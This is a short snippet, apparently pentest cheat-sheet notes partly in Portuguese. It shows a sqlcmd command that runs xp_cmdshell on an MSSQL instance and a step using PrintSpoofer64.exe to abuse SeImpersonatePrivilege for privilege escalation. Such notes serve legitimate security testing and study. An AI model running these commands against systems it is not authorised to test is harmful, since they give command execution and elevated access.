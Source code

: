 #### Connect on Mssql from PowerShell
```powershell
sqlcmd -S '[INSTANCE]' -U '[USER]' -P '[PASS]' -Q "EXEC xp_cmdshell 'whoami';"
```
#### SeImpersonatePrivilege
Após verificar se temos p privilégio de `SeImpersonatePrivilege`, baixamos a tool `PrintSpoofer64.exe`.
```powershell
./PrintSpoofer64.exe -i -c "whoami"
```